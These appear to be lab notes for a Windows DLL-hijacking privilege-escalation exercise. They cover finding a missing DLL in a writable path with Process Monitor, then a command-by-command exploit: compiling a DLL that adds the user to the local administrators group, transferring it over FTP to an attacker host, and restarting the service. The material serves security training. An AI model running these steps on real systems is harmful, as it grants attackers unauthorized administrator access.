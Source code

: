 

Detection

Windows VM

1. Open the Tools folder that is located on the desktop and then go the Process Monitor folder.
2. In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.
3. In procmon, select "filter".  From the left-most drop down menu, select ‘Process Name’.
4. In the input box on the same line type: **dllhijackservice.exe**
5. Make sure the line reads “Process Name is dllhijackservice.exe then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
6. Next, select from the left-most drop down menu ‘Result’.
7. In the input box on the same line type: **NAME NOT FOUND**
8. Make sure the line reads “Result is **NAME NOT FOUND** then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
9. Open command prompt and type: `sc start dllsvc`
10. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.

Note - need a dll with name not found IN a writable path

Exploitation

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_dll.c’ to the Kali VM.
2. Set up a ftp server on kali
3. in command connect to kali over ftp: `ftp <attackerip>`
4. anonymous login
5. put the dll

Kali VM

1. Open windows_dll.c in a text editor and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators user /add`
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`
3. Copy the generated file hijackme.dll, to the Windows VM.

Windows VM

1. Place hijackme.dll in ‘C:\Temp’.
2. Open command prompt and type: `sc stop dllsvc & sc start dllsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`
